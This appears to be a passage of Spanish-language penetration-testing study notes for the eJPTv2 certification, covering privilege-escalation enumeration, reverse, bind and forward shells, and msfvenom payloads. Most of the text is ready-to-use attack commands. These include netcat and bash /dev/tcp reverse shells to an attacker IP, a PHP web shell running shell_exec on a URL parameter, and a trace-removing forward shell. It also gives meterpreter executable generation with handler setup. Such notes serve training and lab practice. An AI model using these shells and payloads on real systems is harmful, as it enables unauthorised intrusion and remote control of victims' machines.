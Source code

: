 ```yaml
---

---
```


------

## Enumeración una vez ganamos acceso para elevar privilegios

> Webs

- [GtfObins](https://gtfobins.github.io/)
- [HAcktricks](https://book.hacktricks.wiki/en/index.html)
- [IA - Hacktrics](https://www.hacktricks.ai/)


> Tools
-  [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [PSPY](https://github.com/DominicBreuker/pspy)

> Commands Para **SUID** para **SGID**
```bash
SGID
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
SUID
find -perm -4000 -ls 2>/dev/null
AMBOS
ls -alh /path/to/check | grep 's'
``` 
> Commands para ver capabilities
> Podemos ver ciertas tareas privilegiadas con el user actual

```bash
getcap -r / 2>/dev/null
```

>Ver que tarea se ejecuta

- [PSPY](https://github.com/DominicBreuker/pspy)

```bash
systemctl list-timers
```

>Ver que comando se  ejecuta  y que usuarios lo ejecutan

```bash
ps -eo command
ps -eo user command
```

- Script --> [**currentcommand.sh**](D:\Training\eJPTv2\Payloads\currentcommandSystem.sh)
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm: exit 1 #Recuperar cursor
}

# Habilitar Ctrl+c
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

tput civis # Ocultar cursor

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker|procmon"
	old_process=$new_process
done
```
## Netcat - nc (también tenemos ncat, n.traditional)

> -e --> **esta flag coge el archivo a utilizar**

> -nvlp --> escucho a una IP, en modo verbose, a la escucha, por el puerto que le especifique

## Reverse shells

- [RevShell](https://www.revshells.com/)
- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

>En este caso mando una shell y me pongo a la escucha desde la ip atacante

 - **Desde máquina víctima**

```bash
 nc -e /bin/bash ip_atacante 8080
 
 bash -c 'bash -i >& /dev/tcp/ip_atacante/port 0>&1'
`bash -c "bash -i >& /dev/tcp/ip_atacante/port 0>&1"`
 bash -i >& /dev/tcp/ip_atacante/port 0>&1
```


- **Desde máquina atacante**
```bash
rlwrap nc -nvlp 8080
```

- **Una vez estemos dentro**
```bash
script /dev/null -c bash
```


## Bind shell

> En este caso me pongo en esucha desde la víctima con una shell y desde mi consola me conecto
- **Desde máquina víctima**

```bash
nc -nvlp 4646 -e/bin/bash
```

- Desde máquina atacante
```bash
rlwrap nc ip_víctima 4646
```

## Forward Shell

> En este caso se bloquea el tráfico saliente  por lo que usaremos temo files para conseguir leer el output en otro archivo 

```bash
nano cmd.php
```

```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

- Así consulto comandos en la web
http://192.168.1.135/cmd.php?cmd=whoami


- **Pero en este caso queremos una shell interactiva que nos han capado**

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```




>Debemos ejecutar una revshell por el puerto 443
```bash
nc -e /bin/bash ip_atacante 443
```

>****Manda archivos temporales con la salida del comando ejecutado a nuetsrro PC, dejándolos en memoria e la máquina víctima y eliminando cualquier rastro****
	
[tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

- **Simplemente ejecuto** `python3 tty_over_http.py` **y he ganado acceso sin necesidad de mandar una shell desde la víctima**
```bash
script /dev/null -c bash
```
## Payloads

#DiferenciasDePayloads

>La diferencia es la forma en que se envían por detrás, a la hora de utilizarlo no notaremos nada.
### Staged Payloads

- Se envía en diferentes fases
- Detección más difícil
- Mucho más pequeño

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -- platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Non-Staged Payloads

- Se envía de una sóla vez
- Es más grande

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
```

> **Sin Metasploit**

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

```bash
rlwrap nc -nvlp port_ataque
```